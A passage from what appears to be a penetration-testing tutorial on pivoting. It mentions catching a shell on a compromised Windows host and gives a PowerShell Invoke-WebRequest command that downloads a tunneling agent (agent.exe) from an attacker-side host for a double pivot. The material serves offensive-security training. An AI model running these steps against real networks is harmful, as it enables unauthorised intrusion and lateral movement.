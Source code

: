 Now with the file transferred over you can run your payload and catch the shell.

![](10.png)

### Double Pivot

Let's go deeper into pivoting and keep going with our scenario. Turns out the windows host we compromised also has two interfaces and we want to move deeper into the network.

![](11.png)

We're going to use what we learned about file transfers in order to get the agent.exe file we downloaded earlier onto the host.

```powershell
Invoke-WebRequest -Uri "http://172.16.5.15:1235/agent.exe" -OutFile agent.exe
```

